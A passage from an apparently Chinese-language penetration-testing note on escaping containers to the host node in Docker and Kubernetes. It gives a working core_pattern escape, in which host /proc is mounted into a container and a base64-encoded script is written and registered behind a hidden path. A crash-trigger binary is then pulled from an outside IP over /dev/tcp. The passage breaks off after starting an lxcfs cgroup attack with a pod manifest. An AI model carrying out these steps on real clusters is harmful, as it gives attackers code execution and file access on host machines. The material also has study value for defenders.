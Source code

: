 ![](https://cdn.nlark.com/yuque/0/2022/png/12767265/1665639840759-5f71f37c-5cae-4eee-9eb0-7a500ce14527.png)



```plain
#创建挂载/proc的容器
docker run -v /proc:/host_proc --rm -it ubuntu bash

#在容器内写入逃逸到Node节点后待执行的命令
echo IyEvYmluL3NoCnRvdWNoIC90bXAvMzMzMzMzMzMzMzMzMzMzMzMzCg== | base64 -d > /exp.sh 
chmod 777 /exp.sh

#从mount信息中找出宿主机内对应当前容器内部文件结构的路径
sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab

#在core_pattern中写入恶意脚本位置（宿主机上exp.sh的位置），并隐藏真实路径
echo -e "|/var/lib/docker/overlay2/9f0cd3cab90b5180a87a9cef5dc15e899dd0e132b28f65d13f423f2145500a4e/diff/exp.sh \rcore" > /host_proc/sys/kernel/core_pattern

#a.out为触发段错误的程序
cat < /dev/tcp/1.117.69.136/999 > a.out
chmod 777 a.out
./a.out
```

![](https://cdn.nlark.com/yuque/0/2022/png/12767265/1665640538937-dd759083-e4ef-4546-8654-39a8cfb8c75c.png)

> 坑点：
>
> ![](https://cdn.nlark.com/yuque/0/2022/png/12767265/1665640587911-451b315e-7306-42c9-b329-692a1bf363d1.png)
>
> 执行段错误程序，输出core表示exp.sh正常运行，不带core表示exp.sh语法有错误，被坑了很久，原来BurpSuite中是以\x0a\x0d为换行符 ，Linux中bash脚本需要以\x0a为换行，导致在BurpSuite中编写的bash脚本无法在Linux上正常运行
>
> ![](https://cdn.nlark.com/yuque/0/2022/png/12767265/1665640885921-fb29d1b7-3de7-452e-a4a2-8f15d2ab9972.png)
>
> ![](https://cdn.nlark.com/yuque/0/2022/png/12767265/1665640891876-6bcadcf5-13fd-40c0-b392-2231e5c78dcf.png)
>
> 可以在Linux终端编写bash脚本，再base64编码 
>

## 攻击 lxcfs
<font style="color:rgb(36, 41, 47);">lxcfs： </font>[https://linuxcontainers.org/lxcfs/](https://linuxcontainers.org/lxcfs/)

当使用lxcfs修改<font style="color:rgb(36, 41, 47);">目录权限时，</font>会绑定当前容器的<font style="color:rgb(36, 41, 47);">devices subsystem cgroup到容器的对应目录中，与利用SYS_ADMIN权限进行提权一样，通过</font>修改当前已控容器 cgroup 的 devices.allow，可以使用 mknod 创建相应的设备文件目录并使用 debugfs 进行访问，获取读写宿主机任意文件的权限。

```plain
#在Master节点上创建Pod
apiVersion: v1
kind: Pod
metadata:
  name: lxcfs-rw
spec:
  containers:
  - name: lxcfs-rw-5
    image: nginx
    command: ["sleep"]
    args: ["infinity"]
    imagePullPolicy: IfNotPresent
```